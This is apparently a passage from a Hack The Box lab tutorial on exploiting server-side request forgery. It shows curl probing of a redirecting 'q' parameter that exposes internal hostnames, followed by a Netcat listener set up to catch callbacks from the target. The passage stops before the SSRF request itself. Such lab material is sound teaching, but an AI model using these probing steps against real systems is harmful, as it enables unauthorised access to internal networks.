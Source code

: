 We can see the request redirected to `/load?q=index.html`, meaning the `q` parameter fetches the resource `index.html`. Let us follow the redirect to see if we can gather any additional information.

SSRF Exploitation Example

```shell-session

AIceBear@htb[/htb]$ curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```

The spawned target is `ubuntu-web.lalaguna.local`, and `internal.app.local` is an application on the internal network (inaccessible from our current position).

The next step is to confirm if the `q` parameter is vulnerable to SSRF. If it is, we may be able to reach the internal.app.local web application by leveraging the SSRF vulnerability. We say "may" because a trust relationship likely exists for `ubuntu-web` to be able to reach and interact with `internal.app.local`. This type of relationship can be something as simple as a firewall rule (or even a lack of any firewall rule).

In one terminal, let's use Netcat to listen on port 8080, as follows.

**Netcat Listener**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ nc -nvlp 8080

listening on [any] 8080 ...
```

Now, let us issue a request to the target web application with `http://<VPN/TUN Adapter IP>` instead of `index.html` in another terminal, as follows. `<VPN/TUN Adapter IP>` will either be the TUN adapter IP of Pwnbox or the TUN adapter IP of the local VM you may be using (after connecting with the supplied VPN key).
